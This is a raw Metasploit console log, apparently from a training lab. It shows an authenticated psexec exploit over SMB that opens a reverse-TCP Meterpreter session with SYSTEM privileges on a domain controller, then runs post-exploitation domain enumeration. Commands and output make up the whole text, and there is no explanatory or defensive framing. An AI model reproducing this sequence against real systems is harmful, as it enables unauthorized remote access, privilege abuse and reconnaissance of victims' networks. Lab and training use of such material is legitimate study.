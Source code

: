 ```
[*] Started reverse TCP handler on 10.11.81.220:4444 
[*] 10.10.144.209:445 - Connecting to the server...
[*] 10.10.144.209:445 - Authenticating to 10.10.144.209:445 as user 'ballen'...
[*] 10.10.144.209:445 - Selecting PowerShell target
[*] 10.10.144.209:445 - Executing the payload...
[+] 10.10.144.209:445 - Service start timed out, OK if running a command or non-service executable...

[*] Sending stage (175174 bytes) to 10.10.144.209
[*] Meterpreter session 1 opened (10.11.81.220:4444 -> 10.10.144.209:59421 ) at 2022-08-24 15:42:05 -0400

meterpreter > 
meterpreter > pwd
C:\Windows\system32
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > use post/windows/gather/enum_domain
Loading extension post/windows/gather/enum_domain...
[-] Failed to load extension: No module of the name post/windows/gather/enum_domain found
meterpreter > 
Background session 1? [y/N]  y
[-] Unknown command: y
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > options

Module options (post/windows/gather/enum_domain):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on

msf6 post(windows/gather/enum_domain) > sessions

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACM  10.11.81.220:4444 -> 10.1
                                     E-TEST                     0.144.209:59421  (10.10.1
                                                                44.209)

msf6 post(windows/gather/enum_domain) > set session 1
session => 1
msf6 post(windows/gather/enum_domain) > exploit

[+] FOUND Domain: FLASH
[+] FOUND Domain Controller: ACME-TEST (IP: 10.10.144.209)
[*] Post module execution completed
msf6 post(windows/gather/enum_domain) > 

meterpreter > 
Background session 1? [y/N]  y
[-] Unknown command: y
msf6 exploit(windows/smb/psexec) > sessions

```